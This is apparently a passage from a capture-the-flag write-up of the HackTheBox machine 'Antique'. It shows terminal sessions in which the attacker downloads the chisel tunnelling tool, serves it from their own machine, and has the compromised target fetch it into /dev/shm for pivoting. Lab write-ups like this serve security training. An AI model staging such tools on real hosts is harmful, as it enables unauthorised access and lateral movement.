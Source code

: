 

    oxdf@hacky$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
    --2022-05-02 13:21:41--  https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
    Resolving github.com (github.com)... 140.82.113.4
    Connecting to github.com (github.com)|140.82.113.4|:443... connected.
    HTTP request sent, awaiting response... 302 Found
    Location: https://objects.githubusercontent.com/github-production-release-asset-2e65be/31311037/ba3e7fe5-01fc-4b0c-b8eb-1b3a4c8eb61f?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20220502%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20220502T132141Z&X-Amz-Expires=300&X-Amz-Signature=71b61999ecaa294c3b7dec1489e6b6ffb2d943a271184c0de349c018c0f92cad&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=31311037&response-content-disposition=attachment%3B%20filename%3Dchisel_1.7.7_linux_amd64.gz&response-content-type=application%2Foctet-stream [following]
    --2022-05-02 13:21:41--  https://objects.githubusercontent.com/github-production-release-asset-2e65be/31311037/ba3e7fe5-01fc-4b0c-b8eb-1b3a4c8eb61f?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20220502%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20220502T132141Z&X-Amz-Expires=300&X-Amz-Signature=71b61999ecaa294c3b7dec1489e6b6ffb2d943a271184c0de349c018c0f92cad&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=31311037&response-content-disposition=attachment%3B%20filename%3Dchisel_1.7.7_linux_amd64.gz&response-content-type=application%2Foctet-stream
    Resolving objects.githubusercontent.com (objects.githubusercontent.com)... 185.199.109.133, 185.199.110.133, 185.199.108.133, ...
    Connecting to objects.githubusercontent.com (objects.githubusercontent.com)|185.199.109.133|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3234355 (3.1M) [application/octet-stream]
    Saving to: ‘chisel_1.7.7_linux_amd64.gz’

    chisel_1.7.7_linux_amd64.gz                                                     100%[====================================================================================================================================================================================================>]   3.08M  9.65MB/s    in 0.3s    

    2022-05-02 13:21:41 (9.65 MB/s) - ‘chisel_1.7.7_linux_amd64.gz’ saved [3234355/3234355]
    oxdf@hacky$ gunzip chisel_1.7.7_linux_amd64.gz 
    oxdf@hacky$ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...



From Antique, I'll fetch the binary:



    lp@antique:/dev/shm$ wget 10.10.14.6/chisel_1.7.7_linux_amd64              
    wget 10.10.14.6/chisel_1.7.7_linux_amd64                                   
    --2022-05-02 13:23:19--  http://10.10.14.6/chisel_1.7.7_linux_amd64        
    Connecting to 10.10.14.6:80... connected.                                  
    HTTP request sent, awaiting response... 200 OK                             
    Length: 8077312 (7.7M) [application/octet-stream]                            
    Saving to: ‘chisel_1.7.7_linux_amd64’                                      

         0K .......... .......... .......... .......... ..........  0%  268K 29s
    ...[snip]...
      7800K .......... .......... .......... .......... .......... 99% 2.52M 0s
      7850K .......... .......... .......... ........             100% 1.37M=2.8s
